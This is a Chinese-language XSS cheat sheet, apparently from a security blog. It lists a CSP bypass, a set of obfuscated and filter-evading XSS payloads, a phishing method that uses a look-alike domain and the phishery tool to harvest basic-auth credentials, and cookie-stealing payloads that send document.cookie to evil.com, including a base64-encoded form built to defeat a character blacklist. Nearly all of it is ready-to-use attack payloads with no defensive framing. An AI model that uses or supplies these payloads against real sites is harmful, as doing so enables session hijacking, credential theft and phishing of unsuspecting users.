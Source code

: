 ### CSP BYPASS

```
script-src self: <object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></object>
```

### 常用的payload

- `svg/onload`
- `'-alert(1)-'`
- `eval(atob('YWxlcnQoMSk='))`
- `<iMg SrC=x OnErRoR=alert(1)>`
- `<div onmouseover="alert('XSS');">`
  `</Textarea/</Noscript/</Pre/</Xmp><Svg /Onload=confirm(document.domain)>`
- `x@x.com<--`<img/src=` onerror=alert(1)> --!>`
- `""[(!1+"")[3]+(!0+"")[2]+(''+{})[2]][(''+{})[5]+(''+{})[1]+((""[(!1+"")[3]+(!0+"")[2]+(''+{})[2]])+"")[2]+(!1+'')[3]+(!0+'')[0]+(!0+'')[1]+(!0+'')[2]+(''+{})[5]+(!0+'')[0]+(''+{})[1]+(!0+'')[1]](((!1+"")[1]+(!1+"")[2]+(!0+"")[3]+(!0+"")[1]+(!0+"")[0])+"(1)")()`
- `oNcliCk=alert(1)%20)//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>%5Cx3csVg/<img/src/onerror=alert(2)>%5Cx3e`

### AUTH CRED

遇到http-only的时候：
使用钓鱼的基本身份验证获取其凭据

1. 注册一个和目标类似的域名
2. <https://github.com/ryhanson/phishery>
3. 编译然后运行
4. 设置payload----`<img/src/onerror=document.location="evil.com/">`
5. 等待目标上线

可还行
[![img](https://xzfile.aliyuncs.com/media/upload/picture/20181213170933-ce4344dc-feb6-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20181213170933-ce4344dc-feb6-1.png)

### 偷Cookie

```
<img/src/onerror=document.location="http://evil.com:8090/cookiez.php?c="+document.cookie>
```

Blacklist bypass:
过滤了`//,:,",<和>`

```
btoa('document.location="http://evil.com:8090/r.php?c="+document.cookie')
```

payload:

```
eval(atob('ZG9jdW1lbnQubG9jYXRpb249Imh0dHA6Ly9ldmlsLmNvbTo4MDkwL3IucGhwP2M9Iitkb2N1bWVudC5jb29raWU='))
```
